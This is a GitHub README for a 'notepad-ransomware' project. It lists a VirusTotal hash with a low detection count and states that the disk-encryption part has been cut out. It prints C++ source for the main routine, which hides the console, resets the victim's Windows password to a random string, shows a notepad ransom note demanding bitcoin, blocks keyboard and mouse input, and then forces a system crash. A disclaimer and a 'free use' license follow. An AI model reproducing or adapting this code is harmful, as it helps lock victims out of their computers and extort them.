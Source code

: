 ##### notepad-ransomware
virustotal: 4b76eaba7150de8027f637a37e4a7ac867c5ae93a9b5b94994b180c31418a8df, 5/67 <br>
warn: the disk encryption system has been cut out.
<hr>

```cpp
string user_name = g_utils.get_user_name(); // getting user name

g_utils.rename_builder(); // renaming builder to random chars
g_win32.show_window(g_win32.get_console_window(), 0); // hide console
g_utils.set_password_windows(user_name, g_utils.random_string(25)); // setting random password of victim windows
g_utils.show_notepad(user_name, "your btc here"); // show readme using notepad.exe
g_win32.block_input(1); // blocking use mouse and keyboard
g_win32.sleeping_mode(10800000); // Sleep() in 3 hrs
g_nt.jmp_raise(19, ((DWORD)0xC00002B4L)); // call nt
```

##### Demostration
<hr>

![d](https://github.com/carterjwasd/notepad-ransomware/blob/main/demo.jpg)

#### Warning message
<hr>

Use it at your own risk. <br>
The author is not responsible for your actions in using this is.

#### License
<hr>

free use
